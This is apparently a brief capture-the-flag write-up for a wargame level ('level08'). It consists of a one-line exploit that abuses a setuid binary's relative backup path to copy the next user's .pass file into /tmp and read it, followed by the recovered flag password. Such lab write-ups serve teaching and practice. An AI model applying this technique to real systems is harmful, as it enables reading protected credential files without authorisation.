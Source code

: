 # level08



## **The exploit**



## **The flag**

We can condense our exploit into the following one-liner :

```
cd /tmp ; mkdir -p backups home/users/level09 ; /home/users/level08/level08 ../home/users/level09/.pass ; cat home/users/level09/.pass
```

We get the flag for `level08` :

```
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```